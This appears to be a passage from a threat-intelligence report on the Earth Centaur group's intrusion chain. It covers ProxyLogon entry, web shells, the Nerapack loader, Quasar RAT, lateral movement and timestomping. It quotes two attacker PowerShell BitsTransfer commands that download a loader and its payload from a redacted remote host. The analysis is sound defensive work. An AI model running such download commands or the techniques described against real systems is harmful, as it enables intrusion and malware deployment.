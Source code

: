 Overview of Earth Centaur’s infection chain
===========================================


Based on our investigation, we found that the intrusion process used by Earth Centaur can be separated into several stages, which are shown in Figure 1.  




We found that the threat actors used vulnerable Internet Information Services (IIS) server and Exchange server vulnerabilities as entry points, and then installed web shells. Afterward, the .NET loader (detected as Nerapack) and the first stage backdoor (Quasar remote administration tool aka Quasar RAT) were deployed on the compromised machine. Then, depending on the victims, the threat actors dropped different types of second-stage backdoors, such as ChiserClient and SmileSvr.


After exploiting the victim's environments successfully, the threat actors start Active Directory (AD) discovery and spread their tools via Server Message Block (SMB). Then, they use intranet penetration tools to build the connection between the victim’s intranet and their command-and-control (C&C) servers. We go into further detail about these stages in our analysis. 






![Figure 1. Stages of Earth Centaur’s intrusion process](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/collecting-in-the-dark-tropic-trooper-targets-transportation-and-government-organizations/Fig1-EarthCentaur.png)
Figure 1. Stages of Earth Centaur’s intrusion process





Technical Analysis of Earth Centaur’s Tools and Techniques


**Stage 1: Loaders**


After the threat actors get access to the vulnerable hosts by using ProxyLogon exploits and web shells, they use bitsadmin to download the next-stage loader (loaders are detected as Nerapack) as well as its payload file (.bin).


C:\Windows\system32\windowspowershell\v1.0\powershell.exe -Command "&{Import-Module BitsTransfer; Start-BitsTransfer 'http://<redacted>:8000/dfmanager.exe' "%temp%/dfmanager.exe"}"


C:\Windows\system32\windowspowershell\v1.0\powershell.exe -Command "&{Import-Module BitsTransfer; Start-BitsTransfer 'http://<redacted>:8000/dfmanager.bin' "C:\Users\<redacted>\AppData\Local\Temp/dfmanager.bin"}"


After our long-term monitoring, we observed that there are two different decryption algorithms (DES or AES) used in Nerapack to decrypt the payload. Moreover, in its newer version, it uses a technique called “Timestomping.” Timestomping is when the timestamp of the payload file (.bin) is altered to make it harder for incident response analysts to find it.






![Figure 2. Timestomping used on the bin file](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/collecting-in-the-dark-tropic-trooper-targets-transportation-and-government-organizations/Earth%20Trooper%20Figure%202.png)
Figure 2. Timestomping used on the bin file
